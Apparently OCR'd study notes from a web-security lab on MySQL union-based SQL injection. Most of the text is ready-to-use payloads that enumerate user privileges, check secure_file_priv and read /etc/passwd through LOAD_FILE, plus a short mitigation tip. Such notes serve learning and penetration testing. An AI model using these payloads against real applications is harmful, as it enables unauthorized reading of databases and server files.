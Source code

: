 ```

# the same as an injection payload
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

# only showing root if multiple users in the database
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

# dump all the privileges we have from the information_schema
SELECT sql_grants FROM information_schema.sql_show_grants

# the same as an injection payload
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

# good risk mitigation practice
# create a read only account for the webapp and GRANT only SELECT privilege to it
# Also don't forget to give a shitty password
CREATE USER 'reader'@'localhost';
GRANT SELECT ON ilfreight.ports TO 'reader'@'localhost' IDENTIFIED BY 'p@ssw0Rd!!';
```

## Reading files
```
# We need to have FILE priviledge granted for that but if we do it gets interesting
# MySQL user also needs to have enough privileges to read it.
SELECT LOAD_FILE('/etc/passwd');

# union injection payload to dump /etc/passwd in the table
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

## Writing files
```
# requirements
1  - User with FILE privilege enabled
2  - MySQL global secure_file_priv variable not enabled
3  - Write access to the location we want to write to on the back-end server
```

## Secure file priv
```
# variable is used to determine where to read/write files from
# empty value lets us read files from the entire file system
# NULL means we cannot read/write from any directory
# MariaDB -> empty by default
# MySQL -> /var/lib/mysql-files or NULL by default
secure_file_priv

# check secure_file_priv
SHOW VARIABLES LIKE 'secure_file_priv';

# check secure_file_priv from the global_variables table
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

# check secure_file_priv from the global_variables table over a union injection
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
